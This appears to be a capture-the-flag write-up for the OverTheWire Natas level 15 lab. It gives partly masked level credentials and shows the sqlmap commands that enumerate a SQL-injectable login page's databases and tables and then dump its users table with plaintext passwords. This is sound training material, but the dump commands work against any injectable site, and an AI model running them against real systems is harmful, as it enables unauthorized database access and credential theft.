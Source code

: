 <br>

Connect to the next level on `http://natas15.natas.labs.overthewire.org/` with :

- Username : ``natas15``
- Password : ``TTkaI7AWG4i-----------kRXH1EZRB``

<br>

## Level 15

> Username : 

<br>

Like the previous level, we need to exploit SQL Injection.

When we input a ``"``, we have an error. 

I tried to enumerate with **UNION** queries but it seems that it is a time-based SQLi, so we'll use **SQLMap** to be more efficient : 

```bash
sqlmap -r request.req --risk=2 --level=3 --dbs
```

Result : 
```bash
available databases [3]:
[*] information_schema
[*] natas15
[*] performance_schema
```

Continue with :
```bash
sqlmap -r request.req --risk=2 --level=3 -D natas15 --tables
```

Result : 
```bash
Database: natas15
[1 table]
+-------+
| users |
+-------+
```

Finally : 
```bash
sqlmap -r request.req --risk=2 --level=3 -D natas15 -T users --dump
```

Result : 
```bash
Table: users
[4 entries]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 6P151OntQe                       | bob      |
| HLwuGKts2w                       | charlie  |
| hROtsfM734                       | alice    |
| TRD7iZr------------uaOlfEjHqj32V | natas16  |
+----------------------------------+----------+
```
